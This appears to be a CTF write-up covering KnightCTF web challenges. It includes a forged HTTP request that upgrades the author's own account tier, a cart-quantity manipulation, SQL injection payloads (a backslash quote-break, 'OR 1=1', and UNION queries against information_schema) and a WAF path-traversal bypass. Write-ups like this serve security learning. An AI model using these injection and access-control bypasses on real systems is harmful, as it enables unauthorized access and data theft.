

<script lang="ts">
  import kshop_index from '$lib/assets/images/knightctf/knight_shop_again.png'
  import kshop_vuln from '$lib/assets/images/knightctf/knight_shop_burp_vuln.png'
  import kshop_flag from '$lib/assets/images/knightctf/knight_shop_flag.png'
  import cloud_index from '$lib/assets/images/knightctf/cloud_index.png'
  import cloud_leak from '$lib/assets/images/knightctf/cloud_leak.png'
  import cloud_vuln from '$lib/assets/images/knightctf/cloud_vuln.png'
  import cloud_flag from '$lib/assets/images/knightctf/cloud_flag.png'
  import waf_index from '$lib/assets/images/knightctf/waf_index.png'
  import waf_flag from '$lib/assets/images/knightctf/waf_flag.png'
  import admin_index from '$lib/assets/images/knightctf/admin_index.png'
  import admin_logged from '$lib/assets/images/knightctf/admin_logged.png'
  import admin_error from '$lib/assets/images/knightctf/admin_error.png'
  import admin_flag from '$lib/assets/images/knightctf/admin_flag.png'
  import admin_tables from '$lib/assets/images/knightctf/admin_tables.png'

</script>

I played this ctf to have some fun with [Bits & Pieces](https://ctftime.org/team/178228/), playing both **web** and **rev**. <br>
In the end we flagged all the web challenges and I had some spare time to complete half of the rev challenges. 
<br>

# Web Challenges 
---
## Knight Cloud - 491 Solves
This was by far the most **fun** challenge of the ctf!<br> To get the flag we just needed to **upgrade** our cloud-tier


Looking in the Sources panel on the devtools, we can see this fragment of code in the file `index-DH6mLR_s.js`


Since there is no validation server-side we can just send a POST to that endpoint to upgrade our tier

```HTTP
POST /api/internal/v1/migrate/user-tier HTTP/1.1
Host: 23.239.26.112:8091
Content-Type: application/json
Cookie: [REDACTED]
Connection: keep-alive

{
	"u": "e2da059c-dc25-45a4-b0a3-7dd9fb21bbcd",
  "t": "enterprise"
}
```

And upon clicking 'Load Analytics', we get the flag


---

## Knight Shop Again - 465 Solves
This was a classic shop challenge. The goal was to buy the **Legendary Excalibur**!

The intended solution required you to exploit a flaw in the coupon system validation-<br>
However, it was possible to change the quantity of a product before checkout, so none of that really matters.

And... yeah, I still don't know if this was the intended solution but it doesn't really matter since it's a beginner-friendly challenge


---

## Admin Panel - 223 Solves
Sqli time! :D<br>

This was a rather chill sqli challenge, there was just a filter that blocked our input whenever we included a quote ( ' ) in the fields<br>

I have to thanks my bro [Shy](https://ctftime.org/user/172276) for saving us a bunch of time discovering an injection point using the backslash `\`, which was exactly what we needed!
<br>
We can understand why this work by immaginating how the SQL query could look like:

```sql
SELECT * FROM users WHERE username = '$user' AND pass = '$pass';  
```
Now, by passing \ as our username, we can effectively break the SQL syntax:
```sql
SELECT * FROM users WHERE username = '\\\' AND pass = ''
```
The query is now broken, since `' AND pass =` is being treated as a string, therefore we get this error from SQL


Now that we have an injection point, we can inject SQL logic and comment out the last quote, closing the query, which is enough to get us in but not enough to get the flag
```sql
SELECT * FROM users WHERE username = ' AND pass = ' OR 1=1; -- -'
```


Since the flag is usually somewhere on the database, we can make a `UNION` to see all the tables in the database and surprise, surprise, a "flag" table is revealed!

```sql
$username: = \\
$pass: = union select table_name,2 from information_schema.tables -- -
```


Now we have everything to retrieve the flag :P

```sql
$username: = \\
$pass: = union select *,2 from flag -- -
```


---

## WaF - 118 Solves  (WORK IN PROGRESS)
We spent wayyy too much time on this.<br>
The challenge itself consisted in this really bland html page

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>Bee</title>
</head>
<body>
  <p>Input your name:</p>
  <form action="/huraaaaa.html" method="GET">
    <input a="{a}" type="text" required>
    <button type="submit">Submit</button>
  </form>


  <!-- @app.after_request    
    def index(filename: str = "index.html"):
    if ".." in filename or "%" in filename:
        return "No no not like that :("
    
    -->
</body>
</html>
```


That comment was a clear indication that a WaF/proxy was preventing us from performing path traversal, but that was not all...<br>
Another obvious hint was the `{a}` in the button input, and I deadass thought about SSTI, therefore I spent countless time trying to obtain RCE.<br>
That was until my goat [ayushh](https://ctftime.org/team/178228) found [this article](https://blog.arkark.dev/2022/11/18/seccon-en#:~:text=txt%20.-,Solution%E2%80%8B,.2%20Python/3.10.8) about URL globbing, which I didnt know was even a thing.<br>
Basically the path is normalized after the WaF/proxy check, therefore it bypasses the check performed by the server-side



